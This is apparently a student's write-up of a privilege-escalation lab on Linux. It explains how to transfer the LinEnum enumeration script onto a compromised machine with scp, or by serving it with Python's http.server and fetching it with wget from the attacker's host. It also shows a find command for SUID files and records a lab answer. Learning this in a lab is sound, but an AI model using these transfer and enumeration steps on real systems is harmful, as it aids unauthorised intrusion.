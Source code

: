 LinEnum is a bash script that searches for possible ways to priv esc. It is incredibly popular due to the sheer amount of possible methods that it checks for, and often times Linenum is one of the first things to try when you get shell access.

Methods to get Linenum on the system  

##### Method 1: SCP  

Since you have ssh access on the machine you can use SCP to copy files over. In the case of Linenum you would run 
```
scp {path to linenum} {user}@{host}:{path}
```

Example: `scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp` would put LinEnum in /tmp.

```
scp LinEnum.sh pingu@10.10.80.7:/tmp
```
![[Pasted image 20240327195305.png]]


##### Method 2: SimpleHTTPServer  

SimpleHTTPServer is a module that hosts a basic webserver on your host machine. Assuming the machine you compromised has a way to remotely download files, you can host LinEnum and download it.

```
python3 -m http.server 9000
```

![[Pasted image 20240327195621.png]]

```
wget http://10.8.194.147:9000/LinEnum.sh
```
![[Pasted image 20240327200623.png]]

![[Pasted image 20240327200722.png]]


Note: There are numerous ways to do this and the two listed above are just my personal favorites.  

Once You have LinEnum on the system, its as simple as running it and looking at the output above once it finishes.  

Answer the questions below

| Question                                                  | Answer           | SS                                   |
| --------------------------------------------------------- | ---------------- | ------------------------------------ |
| What is the interesting path of the interesting suid file | /opt/secret/root | ![[Pasted image 20240328212200.png]] |

*Locate SUID files:*
```
find / -perm -u=s -type f 2>/dev/null_
```

![[Pasted image 20240328212203.png]]

*Using LinEnum:*

![[Pasted image 20240328212520.png]]

